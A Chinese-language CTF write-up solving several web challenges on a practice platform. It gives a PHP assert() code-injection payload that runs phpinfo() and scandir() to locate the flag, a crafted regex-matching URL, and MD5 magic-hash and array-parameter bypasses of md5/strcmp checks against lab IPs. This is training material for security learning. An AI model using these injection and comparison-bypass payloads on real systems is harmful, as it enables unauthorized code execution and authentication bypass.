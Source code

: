 看意思explode就是根据第一参数的规则将目标划分为一个数组。那么pro2就是assert的意思
assert（）一个东西，如果字符串会被当做代码执行，否则是false

以下解法
    试探一下：?index.php?s=phpinfo();//可以正常执行
    ?index.php?s=print_r(scandir(./)) //./的意思应该是在当前目录下，scan扫描目录文件返回一个数组

    显示了flag所处的txt文件夹，之后用var_dump()或者show_source()或者直接访问都可以

## 字符？正则？

打开网页，要求匹配的正则式子如下：

      /key.*key.{4,7}key:\/.\/(.*key)[a-z][[:punct:]]/i

- /。。。。/这对东西标志正则表达式的开头和结尾，类似的还有#。。。#等
- [[:punct:]] ：匹配任何标点符号；
- /i  ：表示这个正则表达式对大小写不敏感；
  一开始我写的匹配对象是这样的：

      http://123.206.87.240:8002/web10/?id=keykey00000key://keyb.

但是失败原因是在最后两个斜杠上，他们在url输入的时候前一个会充当转义作用，实际输入的只有一个/
变成这样就好了：

      http://123.206.87.240:8002/web10/?id=keykey00000key:///keyb.

## 前女友

打开源代码，发现在链接处有个链接，点进入是php代码

```php
<?php
if(isset($_GET['v1']) && isset($_GET['v2']) && isset($_GET['v3'])){
    $v1 = $_GET['v1'];
    $v2 = $_GET['v2'];
    $v3 = $_GET['v3'];
    if($v1 != $v2 && md5($v1) == md5($v2)){
        if(!strcmp($v3, $flag)){
            echo $flag;
        }
    }
}
?>
```

对于这里的md5，既可以采用md5碰撞的方法，也可以让两个变量都在输入的时候声明为数组得到false=false
，对于这里的strcmp可以试试把v3声明为一个不符合数据类型的东西比如说整数，这样可以让函数返回0(仅对php5.3之前版本有效)

    http://123.206.31.85:49162/index.php?v1=s878926199a&v2=s155964671a&v3[]=1
    
    或者
    
    http://123.206.31.85:49162/index.php?v1[]=1&v2[]=2&v3[]=1

## login1
